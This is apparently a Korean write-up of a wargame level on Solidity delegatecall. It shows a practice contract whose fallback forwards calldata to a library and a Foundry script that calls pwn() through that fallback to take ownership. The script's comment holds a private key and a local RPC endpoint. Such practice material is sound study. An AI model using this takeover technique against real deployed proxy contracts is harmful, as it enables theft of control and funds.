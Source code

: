 # 지문
이 레벨의 목표는 주어진 인스턴스의 **소유권을 획득**하는 것입니다.

도움이 될 수 있는 것들:

* Solidity 문서에서 **delegatecall** 저수준 함수가 어떻게 동작하는지, 그리고 온체인 라이브러리에 작업을 위임하는 방식 및 실행 범위에 어떤 영향을 미치는지 살펴보기
* **폴백(fallback) 메서드**
* **메서드 ID**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

# 풀이 

보통 `fallback` handler에 delegatecall로 특정 contract에 `msg.data`(=calldata)를 전달하는 패턴은 향후에 많이 쓰이는 proxy pattern이라고 불림.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function pwn() external;
    function owner() external view returns (address);
}
contract SolveScript is Script {
    address public target = 0x6A1B3C7624b69000D7848916fb4f42026409586C;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        console.log("owner : %s", ITarget(target).owner());
        ITarget(target).pwn();
        console.log("owner after poc : %s", ITarget(target).owner());
        vm.stopBroadcast();
    }
}

```